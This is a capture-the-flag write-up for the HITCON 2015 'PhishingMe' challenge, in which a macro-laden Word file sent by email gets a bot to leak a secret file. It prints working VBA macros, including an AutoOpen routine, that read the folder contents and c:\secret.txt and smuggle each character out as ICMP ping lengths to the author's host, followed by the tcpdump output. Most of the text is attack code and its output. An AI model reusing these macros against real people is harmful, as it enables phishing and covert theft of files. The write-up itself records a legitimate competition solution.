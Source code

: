 Title: PhishingMe

Description:

Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.
Hint
This challenge is all about macro. Requirement will be

- MS Windows
- Ms Word with Macro
- Email title with HITCON 2015
- Email Address to phishing.me.hitcon.2015@gmail.com

 Once all this condition is fulfilled. We received an confirmation email from HITCON
I've read your doc. Interesting
First guess was, ping to home 
Shell ("ping -n 1 my.ip.add.ress")
TCPDUMP from home with ICMP on. Bingo, we go packets We went and wrote few more connection script like email, web and DNS. Looks like we got no luck at all. So we concluded.

- NO Outgoing TCP Allowed
- NO Outgoing UDP Allowed (ppp solved it with DNS)

 Concluded only ICMP able to to go out from the box. So, we did another test. 
Shell ("ping -n 1 -l 2 my.ip.add.ress")
And we received 
11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10
This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.

strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir" 
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)


Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt 
Sub AutoOpen()


Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        
        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
From TCPDUMP we received 
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104 
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105 
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105 
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116 
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125

By taking all the length, we got the string as 

hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!! 

Special Thanks to k9
